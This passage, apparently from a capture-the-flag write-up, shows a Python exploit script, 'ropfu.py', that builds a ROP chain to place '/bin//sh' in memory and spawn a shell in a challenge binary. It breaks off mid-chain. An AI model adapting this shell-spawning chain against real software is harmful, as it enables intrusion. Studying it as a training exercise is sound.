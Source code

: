 <figure class="highlight py"> <figcaption><span>ropfu.py</span><a href="https://gist.github.com/jktrn/17d531a5738b4592f6d718fc0eb1b508"><span style="color:#82C4E4">[github gist link]</span></a> </figcaption> <table> <tr> <td class="gutter"> <pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br></pre> </td><td class="code"> <pre><span class="line"><span class="comment">#!/usr/bin/env python2</span></span><br><span class="line"><span class="keyword">from</span> pwn <span class="keyword">import</span> *</span><br><span class="line"><span class="keyword">from</span> struct <span class="keyword">import</span> pack</span><br><span class="line"></span><br><span class="line">payload = <span class="string">'A'</span>*<span class="number">28</span></span><br><span class="line"></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x080583c9</span>) <span class="comment"># pop edx ; pop ebx ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x080e5060</span>) <span class="comment"># @ .data</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x41414141</span>) <span class="comment"># padding</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x080b074a</span>) <span class="comment"># pop eax ; ret</span></span><br><span class="line">payload += <span class="string">'/bin'</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x08059102</span>) <span class="comment"># mov dword ptr [edx], eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x080583c9</span>) <span class="comment"># pop edx ; pop ebx ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x080e5064</span>) <span class="comment"># @ .data + 4</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x41414141</span>) <span class="comment"># padding</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x080b074a</span>) <span class="comment"># pop eax ; ret</span></span><br><span class="line">payload += <span class="string">'//sh'</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x08059102</span>) <span class="comment"># mov dword ptr [edx], eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x080583c9</span>) <span class="comment"># pop edx ; pop ebx ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x080e5068</span>) <span class="comment"># @ .data + 8</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x41414141</span>) <span class="comment"># padding</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x0804fb90</span>) <span class="comment"># xor eax, eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x08059102</span>) <span class="comment"># mov dword ptr [edx], eax ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x08049022</span>) <span class="comment"># pop ebx ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x080e5060</span>) <span class="comment"># @ .data</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x08049e39</span>) <span class="comment"># pop ecx ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x080e5068</span>) <span class="comment"># @ .data + 8</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x080583c9</span>) <span class="comment"># pop edx ; pop ebx ; ret</span></span><br><span class="line">payload += pack(<span class="string">'<I'</span>, <span class="number">0x080e5068</span>) <span class="comment"># @ .data +